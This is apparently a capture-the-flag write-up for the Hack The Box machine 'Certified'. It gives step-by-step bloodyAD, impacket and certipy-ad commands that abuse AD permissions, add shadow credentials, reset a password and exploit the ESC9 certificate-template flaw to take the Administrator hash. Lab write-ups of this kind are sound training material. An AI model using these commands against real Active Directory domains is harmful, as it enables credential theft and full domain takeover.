










Certified
Certified is a medium-rated Active Directory machine that showcases Active Directory Certificate Services (AD CS) misconfigurations, specifically ESC9 (No Security Extension). The initial foothold is gained through BloodHound enumeration, revealing a misconfigured Management group. By leveraging GenericWrite permissions, shadow credentials are added to the management_svc account, which is then used to reset the password of ca_operator. Privilege escalation is achieved through ESC9, where a vulnerable certificate template allows requesting a certificate as Administrator. Using PKINIT authentication, the Administrator’s hash is extracted, granting full control over the domain. This machine highlights the risks of improper certificate template configurations and excessive permissions in AD environments.'
User flag

Initial nmap scan reveals that this is an Active Directory scenario. Distinguishable by certain ports and services.
Enumeration
Since I have initial credentials for judith.mader, I will try to enumerate the domain with bloodhound.

Now I can insert the data into bloodhound and begin the enumeration.


Management_svc takeover
With the information I've gathered, I can devise a plan for taking over the domain.
- Making judith.mader the owner of the Management group.
- Leveraging the GenericWrite permission of the mentioned group against the svc account to generate shadow credentials.
- Using the svc account to reset the password of ca_operator.
- Using the ca_operator account to abuse certificates.
bloodyAD -d certified.htb -u judith.mader -p judith09 --dc-ip 10.10.11.41 set owner Management judith.mader - makes Judith the owner of the Management group.
impacket-dacledit certified.htb/judith.mader:judith09 -dc-ip 10.10.11.41 -principal judith.mader -target Management -action write -rights WriteMembers - grants Judith permission to add users into the Management group.
bloodyAD -d certified.htb -u judith.mader -p judith09 --dc-ip 10.10.11.41 add groupMember Management judith.mader - adds Judith to the Management group.
bloodyAD -d certified.htb -u judith.mader -p judith09 --dc-ip 10.10.11.41 add shadowCredentials management_svc - adds shadow credentials to the management_svc account.

I'll grab the PKINIttools repo now as it'll be very useful for further escalation. I'll try to get a TGT as it was mentioned above.

I have the .ccache file now, but what interests me more is the AS-REP key. I'll be able to get the hash of management_svc with it.
sudo ntpdate 10.10.11.41 && python PKINITtools/getnthash.py -key 'f4a491c17a0c030ad9c4aa30d3b34a2afc21fa635a427eb1525d7f604f530590' -dc-ip 10.10.11.41 certified.htb/management_svc
Note: I used the ntpdate command here because kerberos has been throwing clock skew errors at me. Joining it together with my intended command solved the issue, but it required several tries.

With this hash in hand, I can remote into the machine and collect the user flag.
Root flag
Discovering ESC9
EXPORT KRB5CCNAME=path/to/.ccache/file
sudo ntpdate 10.10.11.41 && bloodyAD --host DC01.certified.htb -d certified.htb --dc-ip 10.10.11.41 -k set password ca_operator password123 - Changes the password of ca_operator to password 123. In order to use the -k flag, the .ccache file must be set as the $KRB5CCNAME environmental variable.
I am going to use a tool called certipy-ad, in order to search for potentially dangerous certificates I could exploit.
certipy-ad find -vulnerable -stdout -dc-ip 10.10.11.41 -target-ip 10.10.11.41 -u ca_operator@certified.htb -p password123
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
0
CA Name : certified-DC01-CA
DNS Name : DC01.certified.htb
Certificate Subject : CN=certified-DC01-CA, DC=certified, DC=htb
Certificate Serial Number : 36472F2C180FBB9B4983AD4D60CD5A9D
Certificate Validity Start : 2024-05-13 15:33:41+00:00
Certificate Validity End : 2124-05-13 15:43:41+00:00
Web Enrollment : Disabled
User Specified SAN : Disabled
Request Disposition : Issue
Enforce Encryption for Requests : Enabled
Permissions
Owner : CERTIFIED.HTB\Administrators
Access Rights
ManageCertificates : CERTIFIED.HTB\Administrators
CERTIFIED.HTB\Domain Admins
CERTIFIED.HTB\Enterprise Admins
ManageCa : CERTIFIED.HTB\Administrators
CERTIFIED.HTB\Domain Admins
CERTIFIED.HTB\Enterprise Admins
Enroll : CERTIFIED.HTB\Authenticated Users
Certificate Templates
0
Template Name : CertifiedAuthentication
Display Name : Certified Authentication
Certificate Authorities : certified-DC01-CA
Enabled : True
Client Authentication : True
Enrollment Agent : False
Any Purpose : False
Enrollee Supplies Subject : False
Certificate Name Flag : SubjectRequireDirectoryPath
SubjectAltRequireUpn
Enrollment Flag : NoSecurityExtension
AutoEnrollment
PublishToDs
Private Key Flag : 16842752
Extended Key Usage : Server Authentication
Client Authentication
Requires Manager Approval : False
Requires Key Archival : False
Authorized Signatures Required : 0
Validity Period : 1000 years
Renewal Period : 6 weeks
Minimum RSA Key Length : 2048
Permissions
Enrollment Permissions
Enrollment Rights : CERTIFIED.HTB\operator ca
CERTIFIED.HTB\Domain Admins
CERTIFIED.HTB\Enterprise Admins
Object Control Permissions
Owner : CERTIFIED.HTB\Administrator
Write Owner Principals : CERTIFIED.HTB\Domain Admins
CERTIFIED.HTB\Enterprise Admins
CERTIFIED.HTB\Administrator
Write Dacl Principals : CERTIFIED.HTB\Domain Admins
CERTIFIED.HTB\Enterprise Admins
CERTIFIED.HTB\Administrator
Write Property Principals : CERTIFIED.HTB\Domain Admins
CERTIFIED.HTB\Enterprise Admins
CERTIFIED.HTB\Administrator
[!] Vulnerabilities
ESC9 : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
The lack of security extensions here will allow me to make use of the 'CertifiedAuthentication' template to get the Administrator's hash!
Abusing ESC9
certipy-ad account update -username management_svc@certified.htb -hashes 'a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn Administrator - Sets the ca_operator User Principal Name to Administrator. Since AD CS relies on the UPN when issuing certificates, any certificate requested for ca_operator will now be issued as Administrator.
certipy-ad req -username ca_operator@certified.htb -p password123 -ca certified-DC01-CA -template CertifiedAuthentication -debug - Requests a certificate for ca_operator, but since its UPN is now Administrator, the issued cert will belong to Administrator.

I will use the extracted .pfx certificate to authenticate via PKINIT and retrieve the NTLM hash for Administrator.

Success! Now I will remote into the pc as admin and get both flags.

Rooted!